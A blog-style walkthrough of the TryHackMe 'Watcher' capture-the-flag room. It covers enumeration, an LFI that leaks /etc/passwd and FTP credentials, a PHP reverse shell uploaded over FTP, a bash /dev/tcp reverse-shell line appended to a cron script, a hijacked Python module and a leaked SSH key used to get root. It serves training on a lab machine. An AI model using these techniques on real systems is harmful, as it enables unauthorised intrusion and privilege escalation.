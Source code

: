 ```yaml
---
layout: post
title: Tryhackme - Watcher
date: 2021-03-06 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,reverse-shell,boot2root]
---
```


---
Watcher is a beginner level room in Tryhackme. Unlike the usual rooms where you have to get only the user and the root flag, this room had seven flags with the combination of web, user and root flags. The final objective is to get all the flags.

<br>
![cover_image](/assets/img/tryhackme/watcher/1.png)

**Author** | USWCSS
**Description** | A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.


Deploy the VM and let's Hack the machine.

## <ins>Enumeration</ins>
---
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/watcher/nmap_scan.png)
<br>
From the ```nmap scan``` results it is clear that the ports ```21/ftp```, ```22/ssh``` and ```80/http``` ports are open. Since I also included script scanning in the nmap scan, I noticed that ```Anonymous login``` for the ```ftp service``` is not enabled. So, I paid a visit to the ```http service```.
<br>
![http_service](/assets/img/tryhackme/watcher/5.png)
<br>
After running ```gobuster``` to bruteforcing hidden directories and files, I found some promising results.
<br>
<pre>gobuster dir -u http://machine-ip/ -w /usr/share/dirb/wordlists/common.txt -t 40 -x php,html,js,txt</pre>
<br>
![gobuster_results](/assets/img/tryhackme/watcher/4.png)


## <ins>Flag 1</ins>
---
The first thing I checked is the ```robots.txt``` file.
<br>
![robots_txt](/assets/img/tryhackme/watcher/2.png)
<br>
After checking the ```/flag_1.txt``` file we can get the flag 1.
<br>
![flag_1](/assets/img/tryhackme/watcher/3.png)


## <ins>Flag 2</ins>
---
Checking the other file in the robots.txt file it shows an ```403``` meaning ```Forbidden```. Coming back to the home page, I clicked on the post and found that the parameter ```?post=``` is vulnerable to ```LFI```. I tried retrieving the ```/etc/passwd``` file and was successful.
<br>
![lfi_vuln](/assets/img/tryhackme/watcher/6.png)
<br>
Then I tried to view the other file mentioned in the robots.txt file. This will give the ```ftp credentials```.
<br>
![ftp_creds](/assets/img/tryhackme/watcher/7.png)
<br>
Logging in to the ftp service we can get the flag 2. You can download the flag using the ```get flag_2.txt``` command.
<br>
![ftp_service](/assets/img/tryhackme/watcher/8.png)
<br>
![flag_2](/assets/img/tryhackme/watcher/12.png)


## <ins>Flag 3</ins>
---
Continuing with the ftp service, I noticed that the ```files``` directory in the ftp service is the same as the directory mecntioned in the secret file: ```/home/ftpuser/ftp/files```. I grabbed a php reverse shell and edited the ```ip``` and the ```port``` fields and uploaded it. You can do the same using the command ```put php-reverse-shell.php```.
<br>
![revs_php](/assets/img/tryhackme/watcher/9.png)
<br>
Now, we can get a reverse shell by going issuing a ```GET``` request to the url ```http://machine-ip/post.php?post=/home/ftpuser/ftp/files/revs.php```. Remember to open a netcat listener on your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/10.png)
<br>
The first thing I did after getting the reverse shell is locating all the flags.
<br>
<pre>find / -name flag_* -type f 2>/dev/null</pre>
<br>
![flag_location](/assets/img/tryhackme/watcher/11.png)
<br>
From this we can read the flag 3.
<br>
![flag_3](/assets/img/tryhackme/watcher/13.png)
<br>


## <ins>Flag 4</ins>
---
After running ```sudo -l``` I found that anything can be run as the user ```toby```.
<br>
![sudo_l](/assets/img/tryhackme/watcher/14.png)
<br>
Use this to get the shell for the user ```toby```.
<br>
<pre>sudo -u toby /bin/bash</pre>
<br>
![toby_shell](/assets/img/tryhackme/watcher/15.png)
<br>
We can get the fourth flag with this.
<br>
![flag_4](/assets/img/tryhackme/watcher/16.png)
<br>


## <ins>Flag 5</ins>
---
After checking some usual things for lateral movement I found that the file ```cow.sh``` is run as ```cronjob```.
<br>
![cron_job](/assets/img/tryhackme/watcher/17.png)
<br>
Edit the file with the reverse shell payload.
<br>
<pre>echo "bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1" >> /home/toby/jobs/cow.sh</pre>
<br>
Remember to open a netcat listener.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/18.png)
<br>
And baam!! We can get the fifth flag.
<br>
![flag_5](/assets/img/tryhackme/watcher/19.png)
<br>


## <ins>Flag 6</ins>
---
I found a text file in the home directory of the user ```mat```.
<br>
![note_txt](/assets/img/tryhackme/watcher/20.png)
<br>
After looking into the ```/scripts``` directory, I found two files. The file ```cmd.py``` is owned by the user ```mat``` and the file ```will_script.py``` is owned by the user ```will```.
<br>
<pre>
###cmd.py###

def get_command(num):
	if(num == "1"):
		return "ls -lah"
	if(num == "2"):
		return "id"
	if(num == "3"):
		return "cat /etc/passwd"


###will_script.py###

import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
	print("Invalid command!")
	exit()

os.system(cmd)
</pre>
<br>

Since the ```cmd.py``` is editable we can get the reverse shell using this. First we need to get the ```tty```. Use the following commands to get the ```tty``` shell.
<br>
<pre>
Ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>
After getting the ```tty``` shell edit the file to look like this.
<br>
![file_edit](/assets/img/tryhackme/watcher/21.png)
<br>
Remeber to open a netcat listener in your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/watcher/22.png)
<br>
We got the sixth flag.

## <ins>Flag 7</ins>
---
After checking the ```id```, I found that we are in same group as ```adm```. So, I searched the files that are owned by ```adm``` using ```find```.
<br>
![file_find](/assets/img/tryhackme/watcher/23.png)
<br>
Found an interesting file in the ```/opt/backups``` directory with the name ```key.b64```. Cat-ing the contents of the files, found that it is ```base64``` encoded. After decoding it contents found that it is a ```ssh private key```. Save it in your local machine.
<br>
![id_rsa](/assets/img/tryhackme/watcher/24.png)
<br>
Change the permissions of the file using ```chmod 600 id_rsa```.
<br>
<pre>ssh root@machine-ip -i id_rsa</pre>
<br>
After logging in to ssh using the private key file we can get the root flag.
<br>
![root_flag](/assets/img/tryhackme/watcher/25.png)
<br>

We got all the seven flags.

That's it folks. Happy hacking!!!
